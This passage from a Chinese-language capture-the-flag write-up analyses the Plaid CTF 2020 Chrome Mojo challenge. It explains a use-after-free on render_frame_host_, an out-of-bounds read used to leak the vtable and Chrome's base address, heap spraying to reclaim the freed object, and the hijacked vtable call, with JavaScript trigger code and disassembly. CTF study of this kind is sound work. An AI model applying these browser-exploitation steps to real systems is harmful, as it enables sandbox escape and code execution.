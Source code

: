 ```c++
	}
```

另一个漏洞是UAF漏洞：

```c
if (!render_frame_host_->IsRenderFrameLive()) {
	    std::move(callback).Run({});
	    return;
	  }
```

未检查render_frame_host_ 是否可用，在删除iframe（frame.remove();）后会释放render_frame_host_，之后可以通过堆喷render_frame_host_结构体大小的堆块重新申请到，改写其函数指针，之后执行render_frame_host_->IsRenderFrameLive() ，就能控制rip。

## 漏洞利用

调用漏洞代码:

```javascript
<script src="mojo/public/js/mojo_bindings_lite.js"></script>
<script src="third_party/blink/public/mojom/plaidstore/plaidstore.mojom-lite.js"></script>
<script>
	let p = blink.mojom.PlaidStore.getRemote(true);
	await p.storeData("yeet",new Uint8Array(0x28).fill(0x41));
	// await p.getData("yeet", count).data;
</script>
```

#### （1）泄露chrome加载的基地址

在gdb中对content::PlaidStoreImpl::Create 下断点，找到其地址，之后用x/i 查看汇编代码：

![image-20200914170028800](D:\github\De4dCr0w.github.io\image\2020-09-14-Plaid-CTF-2020-mojo-chrome沙箱逃逸分析\1.png)

可以看到PlaidStore 对象的大小为0x28，地址保存在rax中，rcx为vtable地址，保存在0偏移处。rbx为render_frame_host_地址，保存在+0x8偏移处。所以我们通过`p.storeData("yeet"+i,new Uint8Array(0x28).fill(0x41));`申请0x28字节大小的数组，并且和PlaidStore 一起申请，使它们在内存中相邻，之后就可以通过p.GetData泄露vtable 和 render_frame_host _地址。泄露出来的vtable地址减去偏移就可以得到chrome加载的基地址。 

#### （2）伪造 render_frame_host_ 结构，即rop链

在content::RenderFrameHostFactory::Create 下断点，获得地址之后查看相关代码，可以找到RenderFrameHost 对象的大小为0xc28，之后堆喷0xc28 大小的 ArrayBuffer，重新获得被释放的对象。

![image-20200915150352902](D:\github\De4dCr0w.github.io\image\2020-09-14-Plaid-CTF-2020-mojo-chrome沙箱逃逸分析\3.png)

render_frame_host_->IsRenderFrameLive() 调用的反汇编代码如下：

```c
0x00005555591ac2c7 <+23>:    mov    r14,rsi              
0x00005555591ac2ca <+26>:    mov    rbx,rdi                        
0x00005555591ac2cd <+29>:    mov    rdi,QWORD PTR [rdi+0x8]// rdi == render_frame_host_   
0x00005555591ac2d1 <+33>:    mov    rax,QWORD PTR [rdi] // rax ==> vtable 
0x00005555591ac2d4 <+36>:    call   QWORD PTR [rax+0x160]  // vtable+0x160 ==> IsRenderFrameLive
```
